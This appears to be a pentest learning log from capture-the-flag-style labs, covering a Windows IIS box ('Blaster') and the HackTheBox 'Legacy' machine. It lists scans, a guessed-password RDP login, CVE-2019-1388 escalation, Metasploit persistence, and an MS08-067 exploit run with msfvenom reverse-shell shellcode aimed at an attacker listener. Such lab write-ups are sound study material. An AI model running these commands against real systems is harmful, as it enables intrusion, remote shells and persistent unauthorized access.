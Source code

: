 https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86

### Day 14 - Blaster

Initial nmap scan: `nmap -sC -sV -T5 --min-rate 2500 -p- -Pn target -oN nmap.log -v`
```
Nmap scan report for target (10.10.239.85)
Host is up (0.042s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-05-12T17:43:08+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-11T17:39:23
| Not valid after:  2020-11-10T17:39:23
| MD5:   4c42 c1e2 1ad1 cbc2 9971 6407 373f 9d4e
|_SHA-1: 1c7f 1430 bd9a 9608 157d 1453 01c5 0ee5 63fe 58f2
|_ssl-date: 2020-05-12T17:43:09+00:00; +1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Subdirectory bruteforcing:
`ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://target/FUZZ`

Browse through the website, discover the login issues and guess the password to the user you found.

Login to WP-Dashboard and RDP:
`xfreerdp /u:Wade /p:parzival /v:target`

Use the researched [CVE-2019-1388](https://github.com/jas502n/CVE-2019-1388) to get Administrator priviledges.
Finally, get persistence with Metasploit: `run persistence -X`

### Day 15 - Kicking (off) HackTheBox

#### Legacy
```
nmap -T4 -A -p- 10.10.10.4 -oN nmap.log -v
nmap -p139,445,3389 -O 10.10.10.4 -v
nmap -p445 --script smb-vuln-ms08-067 -Pn 10.10.10.4 -v

curl https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py -o ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
python ms08-067.py 10.10.10.4 7 445
```
